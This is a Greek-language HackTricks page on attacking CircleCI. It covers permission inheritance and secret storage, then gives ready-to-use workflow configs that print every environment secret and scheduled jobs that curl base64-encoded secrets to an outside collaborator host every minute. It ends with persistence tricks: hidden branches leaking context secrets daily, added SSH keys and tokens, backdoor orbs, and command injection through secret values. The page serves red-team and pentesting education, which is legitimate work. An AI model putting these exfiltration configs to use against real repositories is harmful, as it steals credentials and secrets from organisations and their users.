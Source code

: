 # Ασφάλεια του CircleCI

<details>

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ κάνοντας υποβολή PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
{% endhint %}

## Βασικές Πληροφορίες

[**Το CircleCI**](https://circleci.com/docs/2.0/about-circleci/) είναι μια πλατφόρμα Συνεχούς Ολοκλήρωσης όπου μπορείτε να **ορίσετε πρότυπα** που υποδηλώνουν τι θέλετε να κάνει με κάποιον κώδικα και πότε να το κάνει. Με αυτόν τον τρόπο μπορείτε να **αυτοματοποιήσετε τις δοκιμές** ή τις **αναπτύξεις** απευθείας **από τον κύριο κλάδο του αποθετηρίου** σας, για παράδειγμα.

## Δικαιώματα

**Το CircleCI** **κληρονομεί τα δικαιώματα** από το github και το bitbucket που σχετίζονται με τον **λογαριασμό** που συνδέεται.\
Στις δοκιμές μου ελέγχθηκε ότι όσο έχετε **δικαιώματα εγγραφής στο αποθετήριο στο github**, θα μπορείτε να **διαχειριστείτε τις ρυθμίσεις του έργου στο CircleCI** (ορισμός νέων κλειδιών ssh, λήψη κλειδιών api έργου, δημιουργία νέων κλαδιών με νέες ρυθμίσεις CircleCI...).

Ωστόσο, χρειάζεται να είστε **διαχειριστής αποθετηρίου** για να **μετατρέψετε το αποθετήριο σε ένα έργο του CircleCI**.

## Μεταβλητές Περιβάλλοντος & Μυστικά

Σύμφωνα με [**τα έγγραφα**](https://circleci.com/docs/2.0/env-vars/) υπάρχουν διαφορετικοί τρόποι για **φόρτωση τιμών σε μεταβλητές περιβάλλοντος** μέσα σε ένα ροή εργασίας.

### Ενσωματωμένες μεταβλητές περιβάλλοντος

Κάθε εκτέλεση ενός εμπορεώματος από το CircleCI θα έχει πάντα [**συγκεκριμένες μεταβλητές περιβάλλοντος που έχουν οριστεί στα έγγραφα**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) όπως `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` ή `CIRCLE_USERNAME`.

### Καθαρό κείμενο

Μπορείτε να τις δηλώσετε σε καθαρό κείμενο μέσα σε μια **εντολή**:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Μπορείτε να τα δηλώσετε σε καθαρό κείμενο μέσα στο **περιβάλλον εκτέλεσης**:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Μπορείτε να τα δηλώσετε σε καθαρό κείμενο μέσα στο περιβάλλον **build-job**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Μπορείτε να τα δηλώσετε σε καθαρό κείμενο μέσα στο **περιβάλλον ενός container**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Μυστικά του Project

Αυτά είναι τα **μυστικά** που θα είναι προσβάσιμα μόνο από το **project** (από **οποιοδήποτε branch**).\
Μπορείτε να τα δείτε **δηλωμένα** στο _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
Η λειτουργία "**Εισαγωγή Μεταβλητών**" επιτρέπει την **εισαγωγή μεταβλητών από άλλα projects** σε αυτό.
{% endhint %}

### Μυστικά Πλαισίου

Αυτά είναι μυστικά που ισχύουν **σε ολόκληρο τον οργανισμό**. Από προεπιλογή, οποιοδήποτε αποθετήριο μπορεί να έχει πρόσβαση σε οποιοδήποτε μυστικό που αποθηκεύεται εδώ:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Ωστόσο, σημειώστε ότι μπορεί να επιλεγεί μια διαφορετική ομάδα (αντί για Όλα τα μέλη) για να δοθεί πρόσβαση στα μυστικά μόνο σε συγκεκριμένα άτομα.\
Αυτή είναι αυτή τη στιγμή μία από τις καλύτερες μεθόδους για να **αυξήσετε την ασφάλεια των μυστικών**, ώστε να μην επιτρέπετε σε όλους να τα αποκτήσουν πρόσβαση, αλλά μόνο σε μερικά άτομα.
{% endhint %}

## Επιθέσεις

### Αναζήτηση Κειμένου Καθαρών Μυστικών

Αν έχετε **πρόσβαση στο VCS** (όπως το github) ελέγξτε το αρχείο `.circleci/config.yml` κάθε αποθετηρίου σε κάθε branch και **αναζητήστε** πιθανά **κείμενα μυστικά** που αποθηκεύονται εκεί.

### Μεταβλητές Περιβάλλοντος & Απαρίθμηση Πλαισίων Μυστικών

Ελέγχοντας τον κώδικα μπορείτε να βρείτε **όλα τα ονόματα μυστικών** που χρησιμοποιούνται σε κάθε αρχείο `.circleci/config.yml`. Μπορείτε επίσης να πάρετε τα **ονόματα πλαισίων** από αυτά τα αρχεία ή να τα ελέγξετε στην ιστοσελίδα: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### Εξαγωγή Μυστικών Έργου

{% hint style="warning" %}
Για να **εξάγετε ΟΛΑ** τα μυστικά του έργου και των πλαισίων, χρειάζεται να έχετε πρόσβαση **ΕΓΓΡΑΦΗΣ** σε μόνο ένα αποθετήριο σε ολόκληρο τον οργανισμό στο github (_και ο λογαριασμός σας πρέπει να έχει πρόσβαση στα πλαίσια, αλλά από προεπιλογή όλοι μπορούν να έχουν πρόσβαση σε κάθε πλαίσιο_).
{% endhint %}

{% hint style="danger" %}
Η λειτουργία "**Εισαγωγή Μεταβλητών**" επιτρέπει την **εισαγωγή μεταβλητών από άλλα projects** σε αυτό. Έτσι, ένας επιτιθέμενος θα μπορούσε να **εισαγάγει όλες τις μεταβλητές του έργου από όλα τα αποθετήρια** και στη συνέχεια **να εξάγει όλα μαζί**.
{% endhint %}

Όλα τα μυστικά του έργου είναι πάντα ορισμένα στο περιβάλλον των εργασιών, οπότε απλά καλώντας το περιβάλλον και κρυπτογραφώντας το σε base64 θα εξάγετε τα μυστικά στη **κονσόλα καταγραφής ιστορικού εργασιών**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Αν **δεν έχετε πρόσβαση στη web κονσόλα** αλλά έχετε **πρόσβαση στο αποθετήριο** και γνωρίζετε ότι χρησιμοποιείται το CircleCI, μπορείτε απλά να **δημιουργήσετε ένα ροή εργασίας** που **ενεργοποιείται κάθε λεπτό** και που **αποστέλλει τα μυστικά σε μια εξωτερική διεύθυνση**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Διαρροή Μυστικών Πλαισίου

Πρέπει να **καθορίσετε το όνομα του πλαισίου** (αυτό θα διαρρεύσει επίσης τα μυστικά του έργου):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Αν **δεν έχετε πρόσβαση στη web κονσόλα** αλλά έχετε **πρόσβαση στο αποθετήριο** και γνωρίζετε ότι χρησιμοποιείται το CircleCI, μπορείτε απλά να **τροποποιήσετε ένα ροή εργασίας** που **ενεργοποιείται κάθε λεπτό** και που **αποστέλλει τα μυστικά σε μια εξωτερική διεύθυνση**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Απλά δημιουργώντας ένα νέο αρχείο `.circleci/config.yml` σε ένα αποθετήριο **δεν είναι αρκετό για να ενεργοποιήσει μια κατασκευή στο circleci**. Πρέπει **να το ενεργοποιήσετε ως ένα έργο στην κονσόλα του circleci**.
{% endhint %}

### Απόδραση στο Cloud

Το **CircleCI** σας δίνει τη δυνατότητα να εκτελέσετε **τις κατασκευές σας στις μηχανές τους ή στις δικές σας**.\
Από προεπιλογή, οι μηχανές τους βρίσκονται στο GCP, και αρχικά δεν θα μπορείτε να βρείτε κάτι σχετικό. Ωστόσο, αν ένα θύμα εκτελεί τις εργασίες στις **δικές του μηχανές (πιθανώς, σε ένα περιβάλλον cloud)**, ενδέχεται να βρείτε ένα **σημείο τερματικού μεταδεδομένων cloud με ενδιαφέρουσες πληροφορίες**.

Σημειώστε ότι στα προηγούμενα παραδείγματα εκκινήθηκαν όλα μέσα σε ένα δοχείο docker, αλλά μπορείτε επίσης **να ζητήσετε να εκκινήσετε μια μηχανή VM** (η οποία ενδέχεται να έχει διαφορετικές άδειες cloud):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
Ή ακόμα και ένα docker container με πρόσβαση σε ένα απομακρυσμένο υπηρεσία docker:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Μόνιμη παραμονή

* Είναι δυνατόν να **δημιουργήσετε** **διακριτικά χρήστη στο CircleCI** για πρόσβαση στα σημεία API με την πρόσβαση των χρηστών.
* _https://app.circleci.com/settings/user/tokens_
* Είναι δυνατόν να **δημιουργήσετε διακριτικά έργων** για πρόσβαση στο έργο με τις άδειες που δίνονται στο διακριτικό.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* Είναι δυνατόν να **προσθέσετε κλειδιά SSH** στα έργα.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* Είναι δυνατόν να **δημιουργήσετε έναν προγραμματισμένο χρόνο σε κρυμμένο κλαδί** σε ένα απροσδόκητο έργο που **διαρρέει** όλες τις **μεταβλητές περιβάλλοντος context** καθημερινά.
* Ή ακόμη και δημιουργήστε σε ένα κλαδί / τροποποιήστε ένα γνωστό job που θα **διαρρέει** όλα τα context και τα **μυστικά έργων** καθημερινά.
* Αν είστε ιδιοκτήτης στο github μπορείτε να **επιτρέψετε μη επαληθευμένες σφαίρες** και να διαμορφώσετε μία σε ένα job ως **πίσω πόρτα**
* Μπορείτε να βρείτε μια **ευπάθεια εισαγωγής εντολών** σε κάποια εργασία και να **εισάγετε εντολές** μέσω ενός **μυστικού** τροποποιώντας την τιμή του.
